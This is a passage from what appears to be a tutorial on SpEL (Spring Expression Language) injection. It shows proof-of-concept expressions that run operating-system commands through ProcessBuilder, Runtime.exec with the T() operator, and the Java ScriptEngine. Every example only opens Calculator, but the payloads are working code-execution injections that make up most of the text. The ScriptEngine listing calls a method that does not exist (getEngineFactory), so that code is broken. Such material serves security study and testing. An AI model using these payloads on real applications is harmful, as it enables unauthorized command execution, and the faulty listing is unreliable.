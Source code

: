 Then get the class and call the corresponding method to execute the command.

## PoC
### ProcessBuilder

```java
new java.lang.ProcessBuilder(new String[]{"open", "-a", "Calculator"}).start()
```

```java
new ProcessBuilder(new String[]{"open", "-a", "Calculator"}).start()
```

### RunTime
Note: Since the `RunTime` class uses singleton mode, the acquisition object cannot be obtained directly through the constructor method, and must be obtained through the static method `getRuntime`. If you call the static method, you need to use the `SpEL`` T()` operator. The `T()` operator will return an `object`.

```java
T(java.lang.Runtime).getRuntime().exec("open -a Calculator")
```

```java
T(Runtime).getRuntime().exec(new String[]{"open", "-a", "Calculator"})
```

### ScriptEngine
Since the `eval` function in `JS` can parse strings as code, and the `ScriptEngineManager` class comes with `JDK6`, which supports `Java` objects that call `Java` in `JS`. Therefore, `Java` can be used to call `eval` of the `JS` engine, and then in turn call `Java` objects in `Payload`.

Get all `JavaScript` engine information:

```java
public static void main(String[] args) {
    ScriptEngineManager manager = new ScriptEngineManager();
    List<ScriptEngineFactory> factories = manager.getEngineFactory();
    for (ScriptEngineFactory factory: factories){
            System.out.printf(
                "Name: %s%n" + "Version: %s%n" + "Language name: %s%n" +
                "Language version: %s%n" +
                "Extensions: %s%n" +
                "Mime types: %s%n" +
                "Names: %s%n",
                factory.getEngineName(),
                factory.getEngineVersion(),
                factory.getLanguageName(),
                factory.getLanguageVersion(),
                factory.getExtensions(),
                factory.getMimeTypes(),
                factory.getNames()
            );
    }
}
```
Through the output result, we can know that the parameters of `getEngineByName` can be filled in `nashorn`, `Nashorn`, `js`, `JS`, `JavaScript`, `javascript`, `ECMAScript`, `ecmascript`.
